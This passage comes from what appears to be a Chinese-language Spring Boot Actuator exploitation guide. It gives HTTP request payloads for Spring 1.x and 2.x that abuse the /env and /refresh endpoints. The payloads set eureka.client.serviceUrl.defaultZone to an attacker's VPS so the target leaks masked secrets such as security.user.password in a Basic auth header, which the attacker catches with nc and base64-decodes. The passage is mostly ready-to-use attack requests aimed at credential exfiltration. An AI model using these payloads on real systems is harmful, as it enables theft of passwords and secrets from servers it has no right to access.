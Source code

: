 将下面 `http://value:${security.user.password}@your-vps-ip`  中的  `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```



##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。



### 0x05：获取被星号脱敏的密码的明文 (方法三)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果
